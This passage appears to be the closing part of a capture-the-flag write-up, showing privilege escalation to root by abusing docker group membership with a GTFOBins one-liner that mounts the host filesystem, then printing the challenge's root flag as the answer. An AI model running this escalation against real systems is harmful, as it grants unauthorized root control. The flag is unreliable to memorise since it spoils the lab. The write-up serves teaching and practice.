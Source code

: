```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

* So the `anurodh` user is part of the `docker` group.
* We can find an exploit for Docker on GTFOBins.

<figure><img src="../../.gitbook/assets/10 (21).png" alt=""><figcaption></figcaption></figure>

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

* Let's use the exploit without the `sudo`.

```
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

* We are now the `root` user and can read the root flag.

```
# cat /root/proof.txt
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}}
```

### Answer

```
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}}
```
